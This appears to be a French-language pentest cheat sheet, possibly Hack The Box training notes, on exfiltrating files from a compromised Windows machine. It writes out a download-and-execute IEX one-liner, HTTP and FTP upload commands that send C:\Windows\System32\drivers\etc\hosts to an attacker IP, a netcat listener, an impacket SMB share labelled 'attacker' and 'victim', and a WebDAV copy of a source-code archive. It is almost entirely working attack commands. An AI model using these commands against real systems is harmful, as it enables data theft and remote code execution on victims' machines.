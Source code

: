 ```yaml
---
public: true # set to true to make the article publishable
---
```

## Listener HTTP

```title=configuration du serveur 
pip3 install uploadserver
python3 -m uploadserver
```

### PsUpload.ps1

```utilisation depuis powershell
PS> IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')
PS> Invoke-FileUpload -Uri http://192.168.49.128:8000/upload -File C:\Windows\System32\drivers\etc\hosts
```

### Base 64

```
 $b64 = [System.convert]::ToBase64String((Get-Content -Path 'C:\Windows\System32\drivers\etc\hosts' -Encoding Byte))
Invoke-WebRequest -Uri http://192.168.49.128:8000/ -Method POST -Body $b64
```

## Listener FTP

```
sudo python3 -m pyftpdlib --port 21 --write
```

### Powershell

```
(New-Object Net.WebClient).UploadFile('ftp://192.168.49.128/ftp-hosts', 'C:\Windows\System32\drivers\etc\hosts')
```

### Client ftp

On pourra également utiliser simplement le client `ftp`

## Listener NC

```
# lancement du listener
nc -lvnp 8000

# décodate de la payload reçue 
echo <base64> | base64 -d -w 0 > fichier
```

### Encodage Base 64 du fichier

```title=Linux
echo <base64> | base64 -d -w 0 > fichier
```

```title=Powershell
$b64 = [System.convert]::ToBase64String((Get-Content -Path 'C:\Windows\System32\drivers\etc\hosts' -Encoding Byte))
PS C:\htb> Invoke-WebRequest -Uri http://192.168.49.128:8000/ -Method POST -Body $b64
```

## SMB

### SMB Classique

```
attacker> sudo smbserver.py myshare ./ -smb2support
attacker> sudo smbserver.py myshare ./ -smb2support -user rebrec -password blah
victim> net use x: \\<ATACKER_IP>\myshare /user rebrec blah
```

### WebDav

#### Listener WebDAV

```
# installation
sudo pip install wsgidav cheroot

# utilisation
sudo wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous
```

#### Connection au partage

```
# Si on veut accéder à la racine utiliser le partage spécial DavWWWRoot
dir \\192.168.49.128\DavWWWRoot 

# Sinon utilisation du nom du partage classique
dir \\192.168.49.128\partage
 copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\partage\


```

